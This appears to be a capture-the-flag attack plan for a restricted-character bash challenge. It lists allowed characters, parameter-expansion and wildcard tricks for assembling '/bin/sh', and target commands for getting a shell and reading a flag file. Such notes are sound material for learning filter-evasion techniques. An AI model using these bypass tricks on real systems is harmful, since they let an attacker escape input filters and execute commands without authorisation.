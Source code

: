 # Broken Shell Attack Plan

## Available Characters
```
0123456789${}/?"[:space:]:&>_=()
```

## Helpful Bash Techniques

### Parameter Expansion
Using `${parameter}` syntax, we can:

1. `${parameter:offset:length}` - Extract substrings
2. `${#parameter}` - Get the length of a parameter
3. `${parameter/pattern/replacement}` - Replace patterns

### Command Substitution
`$()` allows executing commands and substituting their output

### Interesting Variables
- `$$` - Current process ID
- `$?` - Exit status of the last command
- `$0` - Name of the current shell
- `${PATH}` - Search path for commands

## Attack Vectors

### 1. Command Execution via Parameter Expansion
We can extract characters from existing environment variables:
```bash
${PATH:0:1}  # Usually returns "/"
```

### 2. Command Construction
Build commands using parameter expansion from environment variables:
```bash
$(${PATH:0:1}???${PATH:5:1}${PATH:11:1})  # May construct "/bin/sh"
```

### 3. Command Execution via Special Parameters
```bash
$?  # Exit status (usually 0)
$$  # Process ID
```

### 4. Using Wildcards
```bash
$(/?/?/???)  # May match to common directories
```

### 5. Leveraging Existing Variables
```bash
$PATH
$HOME
$USER
$SHELL
```

## Target Commands
1. Get a shell: `/bin/sh`, `/bin/bash`
2. List files: `ls`, `/bin/ls`
3. Read flag: `cat flag.txt`, `/bin/cat flag*`
